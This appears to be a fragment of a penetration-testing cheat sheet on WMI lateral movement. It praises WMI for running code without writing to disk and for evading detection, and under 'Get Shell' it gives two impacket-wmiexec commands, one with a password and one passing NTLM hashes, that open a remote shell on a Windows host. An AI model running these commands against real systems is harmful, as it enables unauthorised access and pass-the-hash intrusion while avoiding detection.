 ### WMI
>The advantage to this method is that it allows us to execute code without writing on the disk or creating a new system. The result is a lowered chance of detection by Windows Security Essentials and Bit9, for instance
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```
